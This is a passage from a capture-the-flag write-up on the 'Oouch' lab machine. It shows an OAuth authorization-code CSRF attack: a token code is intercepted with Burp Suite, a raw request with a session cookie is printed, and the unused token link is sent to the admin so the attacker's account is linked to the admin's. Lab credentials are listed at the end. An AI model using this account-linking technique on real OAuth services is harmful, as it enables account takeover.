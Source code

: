 ```bash
/register (Status: 200)
===============================================================
2020/07/03 20:49:23 Finished
===============================================================

```

We get a /oauth page which gives us a new subdomain http://consumer.oouch.htb:5000/.
Logging in here takes us to another subdomain, http://authorization.oouch.htb:8000/.

Register on port 8000.

To exploit the authorization flow we need to extract the token-code before it is used, as it can only be used once. To do this use Burp Suite and forward packets during the authorization until you reach the packet that contains the token-code, then copy the token and drop the packet.

```
GET /oauth/connect/token?code=FdpuhkBq86DxiKLEsvwcZI2hgDC2ld HTTP/1.1
Host: consumer.oouch.htb:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://authorization.oouch.htb:8000/oauth/authorize/?client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&response_type=code&redirect_uri=http://consumer.oouch.htb:5000/oauth/connect/token&scope=read
Connection: close
Cookie: session=.eJxlj8FuAyEMRH-FcI4qwCyYfEXVHnqoosiASVbZZKtl9xTl3-u2x55GlufZMw99ahP1C3d9-HxotYroG_dOZ9Z7_ToxdVbTfFbjXa2zolJkqdbL2NWXeF708bn_z73xeezrQus439X79gu1bdqpD57KfGNFvMw7YY97CbBwv-jDumws01j1QWduQByThZitcxbBpJTIYIjmRzh5zmEYvIcIPlhTXS4JjDcuWyEx4kC1JI8mVWjFmhTIyTFHYABDQA9cRKutKDim2CrEGJJtWDJJhdKXdlrnK98lDzUvX9tA0GrJrQaPkBHJOB4GE2ICzA7QC7d1Xv5KOP38BnkSaI0.Xv-ZjQ.akKbed49LVvPMe5CbzI2QuO9eOE
Upgrade-Insecure-Requests: 1
```

Now that we have a token which has not yet been used, we can use the token with any user. So if we send the link `http://consumer.oouch.htb:5000/oauth/connect/token?code=FdpuhkBq86DxiKLEsvwcZI2hgDC2ld` to the admin via the contact page. And if the admin user "clicks" on the link which we established earlier will happen, this will link the token to the admins account. 

After the link is clicked we can log in again via port 8000 and we will be logged in as the user that is linked to our authorization account, which is now the user qtc.

![Logged in as qtc]({{ site.url }}{{ site.baseurl }}/assets/oouch/qtclogin.jpg)

We can now look around the application as the user qtc. Under Documents we find some credentials.

```
dev_access.txt:
develop:supermegasecureklarabubu123! -> Allows application registration.


o_auth_notes.txt:
/api/get_user -> user data. oauth/authorize -> Now also supports GET method.


todo.txt:
Chris mentioned all users could obtain my ssh key. Must be a joke...
```
